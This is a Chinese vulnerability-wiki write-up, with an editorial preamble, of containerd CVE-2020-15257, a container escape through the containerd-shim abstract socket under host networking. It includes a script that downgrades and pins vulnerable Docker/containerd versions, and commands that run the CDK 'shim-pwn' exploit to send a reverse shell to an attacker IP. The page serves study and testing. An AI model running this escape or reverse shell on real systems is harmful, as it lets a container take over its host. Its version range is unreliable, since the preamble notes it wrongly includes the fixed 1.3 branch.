





# Containerd 漏洞导致容器逃逸 CVE-2020-15257

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：host网络namespace、容器有效UID0、相关旧shim及可达抽象Unix socket；正文<1.3.9及1.4.0至1.4.2
- 证据范围：原理和网络/UID条件明确，提供工具版本差异；安装脚本和实验步骤破坏性强且未执行

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 影响范围两条单独<1.4.3和<1.3.9会错误包含已修复1.3分支，应分支表达
- 实验脚本删除旧容器软件、修改系统软件源、降级且hold安全更新，应仅隔离实验机并列回滚
- containerd.io降级不能只看docker版本
- 缺镜像固定版本/散列

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Containerd 是一个控制 runC 的守护进程，提供命令行客户端和 API，用于在一个机器上管理容器。

在版本 1.3.9 之前和 1.4.0~1.4.2 的 Containerd 中，由于在网络模式为 host 的情况下，容器与宿主机共享一套 Network namespace ，此时 containerd-shim API 暴露给了用户，而且访问控制仅仅验证了连接进程的有效 UID 为 0，但没有限制对抽象 Unix 域套接字的访问，刚好在默认情况下，容器内部的进程是以 root 用户启动的。在两者的共同作用下，容器内部的进程就可以像主机中的 containerd 一样，连接 containerd-shim 监听的抽象 Unix 域套接字，调用 containerd-shim 提供的各种 API，从而实现容器逃逸。

参考链接：

- https://nvd.nist.gov/vuln/detail/CVE-2020-15257
- https://xz.aliyun.com/t/8681
- https://www.cdxy.me/?p=837
- https://github.com/Metarget/metarget
- https://github.com/cdk-team/CDK/issues/114

## 漏洞影响

```
containerd < 1.4.3
containerd < 1.3.9
```

## 环境搭建

ubuntu 18.04 使用以下脚本 `install_containerd_1.2.6.sh` 安装 Docker 19.03.6 和 Containerd.io 1.2.6：

```shell
#!/bin/bash
set -e

echo "[*] Removing old Docker versions (if any)..."
sudo apt remove -y docker docker-engine docker.io containerd runc || true

echo "[*] Unholding previously held Docker packages (if any)..."
sudo apt-mark unhold docker-ce docker-ce-cli containerd.io || true

echo "[*] Removing incorrect Docker sources..."
sudo rm -f /etc/apt/sources.list.d/docker.list || true
sudo sed -i '/download.docker.com/d' /etc/apt/sources.list

echo "[*] Adding Tsinghua University Docker mirror GPG key..."
wget -qO - https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu/gpg | sudo apt-key add -

echo "[*] Adding Tsinghua University Docker mirror repository..."
echo "deb [arch=amd64] https://mirrors.tuna.tsinghua.edu.cn/docker-ce/linux/ubuntu bionic stable" \
  | sudo tee /etc/apt/sources.list.d/docker.list

echo "[*] Updating package index..."
sudo apt update

echo "[*] Searching for Docker 19.03.6..."
DOCKER_VERSION=$(apt-cache madison docker-ce | grep 19.03.6 | head -n1 | awk '{print $3}')
if [ -z "$DOCKER_VERSION" ]; then
  echo "[!] Docker 19.03.6 not found in repository."
  exit 1
fi
echo "[*] Found Docker version: $DOCKER_VERSION"

echo "[*] Searching for containerd.io 1.2.6..."
CONTAINERD_VERSION=$(apt-cache madison containerd.io | grep 1.2.6 | head -n1 | awk '{print $3}')
if [ -z "$CONTAINERD_VERSION" ]; then
  echo "[!] containerd.io 1.2.6 not found in repository."
  exit 1
fi
echo "[*] Found containerd.io version: $CONTAINERD_VERSION"

echo "[*] Installing Docker version $DOCKER_VERSION and containerd.io $CONTAINERD_VERSION ..."
sudo apt install -y docker-ce=$DOCKER_VERSION docker-ce-cli=$DOCKER_VERSION
sudo apt install -y --allow-downgrades containerd.io=$CONTAINERD_VERSION

echo "[*] Locking versions to prevent automatic updates..."
sudo apt-mark hold docker-ce docker-ce-cli containerd.io

echo "[*] Installation complete, current versions:"
docker --version
containerd --version
```




## 漏洞复现

使用以下命令启动容器：

```shell
sudo docker run -it --net=host --name=15257 ubuntu /bin/bash
```

在容器内执行命令，查看是否可看到抽象命名空间 Unix 域套接字：

```shell
root@ubuntu:/# cat /proc/net/unix|grep -a "containerd-shim"
```




然后下载漏洞利用工具 [CDK](https://github.com/cdk-team/CDK)，并将其传入容器 `/tmp` 目录下：

```shell
sudo docker cp cdk_v0.1.6 15257:/tmp
```

攻击端监听 9999 端口。在容器内运行工具，执行反弹 shell 命令，验证得到一个宿主机的 shell：

```shell
sudo docker exec -it 15257 bash
-----
root@ubuntu:/# cd /tmp
root@ubuntu:/tmp# ./cdk_v0.1.6 run shim-pwn 192.168.145.23 9999
2025/05/26 07:27:19 tring to spawn shell to 192.168.145.23:9999
2025/05/26 07:27:19 try socket: @/containerd-shim/moby/662ca282f95fb460dee996c9456dc333c16a556cc3a10f2417f5f6cb87610751/shim.sock
```




成功接收反弹 shell：




> 注意，此处最好使用 [cdk v0.1.6](https://github.com/cdk-team/CDK/releases/tag/0.1.6)，如果使用最新版，将触发异常 `connection refused`，可参考 [issues/114](https://github.com/cdk-team/CDK/issues/114)：




## 漏洞修复

升级 `containerd` 至最新版本。


---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
